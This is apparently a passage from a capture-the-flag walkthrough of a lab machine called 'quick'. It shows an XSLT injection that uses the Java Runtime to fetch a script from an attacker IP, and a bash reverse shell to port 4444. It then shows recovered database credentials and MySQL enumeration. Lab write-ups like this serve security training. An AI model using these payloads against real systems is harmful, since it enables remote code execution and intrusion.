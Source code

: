 `test.xsl`:

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
  <xsl:variable name="cmd"><![CDATA[wget 10.10.14.25:8000/abhizer.sh]]></xsl:variable>
  <xsl:variable name="rtObj" select="rt:getRuntime()"/>
  <xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
  Process: <xsl:value-of select="$process"/>
  Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

`abhizer.sh`:

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.14.25/4444 0>&1
```

* Search ticket to trigger stylesheet → reverse shell obtained as `sam@quick`.

---

## Privilege Escalation – Database Enumeration

Printer DB credentials (`/var/www/printer/db.php`):

```php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
```

Connect to MySQL:

```bash
mysql -u db_adm -p quick
# password: db_p4ss
```

**Databases:**

```sql
show databases;
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| quick              |
| sys                |
+--------------------+
```
